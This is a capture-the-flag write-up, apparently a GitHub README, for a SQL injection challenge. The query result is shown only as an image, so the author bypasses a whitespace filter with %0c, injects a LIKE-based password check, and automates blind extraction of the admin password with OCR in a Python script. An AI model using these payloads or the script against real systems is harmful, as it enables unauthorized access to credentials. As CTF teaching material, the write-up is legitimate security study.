



# sql_auth

This is one of the best challenges I have made so far for ctfs based on sql injections. This challenge appeared ***_vmware ctf_*** couducted as a part of _InCTF national finals_ and also in _internal ctf_ we had in our team.

Source of the challenge : Coming soon...

***Dependencies***
- imgkit
- PIL
- pytesseract

The main objective of the challenge is not to bypass the sql but to read the outcome of the injection we've made.

I've made the challenge a bit different for regular sql injection challenges we find in CTFs as I got bored cracking the traditional sql challenges.

Once the query is executed the result of the query is not relected into the html but it is written into an image which will be displayed as a greeting on the page.

So, to solve the challenge we need to read the content of the greeting image. _pytesseract_ (Python-tesseract) is an optical character recognition (OCR) tool for python. That is, it will recognize and “read” the text embedded in images. To repeatedly make a query and read the image we can use _imgkit_ which is a Python 2 and 3 wrapper for wkhtmltoimage utility to convert HTML to IMG using Webkit and to work with pytesseract we also need _PIL_ which is a python imaging library.

***SOLVING THE CHALLENGE***

```PHP
if(isset($_GET['bypass']) && !iconv("UTF-8","UTF-8//IGNORE",$_GET['bypass'])) exit(":P LOL!!");
if(isset($_GET['bypass']) && strlen($_GET['bypass'])>3) exit("No No");
if(preg_match('/ |\n|\r|\t/i', $_GET['bypass'])) exit("NoNo");
```

On analysing this code we can understand that we can't use space, tabs, newlines, ```%0c``` etc.
But we can use %0c and %0b as alternatives

So, bypassing the space :
```
url/?bypas=%0c
```


Now dumping the admin password which is quite easy....

```
url/?bypass=%0c&pass='%0c||%0c(pw%0clike%0c'%');%00'
```



```
url/?bypass=%0c&pass='%0c||%0c(pw%0clike%0c'2%');%00'
```



This will greet us with welcome admin. Now all we have to do is automate the process （^ - ^）

```python
import imgkit
from PIL import Image, ImageDraw, ImageFont
import pytesseract
pay="1234567890"
passwd=""
url = 'http://url/this_is_the_sql.php?bypass=&pass=\'||(pwlike\''
while(1):
    corr=0
    for j in pay:
        query=url+passwd+j+'%\')---'
        print(query)
        imgkit.from_url(query, 'out.png')
        img=Image.open("out.png")
        text = pytesseract.image_to_string(img,lang='eng')
        if "Welcome admin" in text:
            passwd=passwd+j
            print(passwd)
            corr+=1
            break
    if corr==0:
            break
print(passwd)
```
```
http://url/this_is_the_sql.php?pass=2387522
```
Fake flag :
```flag{chs_is_the_king}```
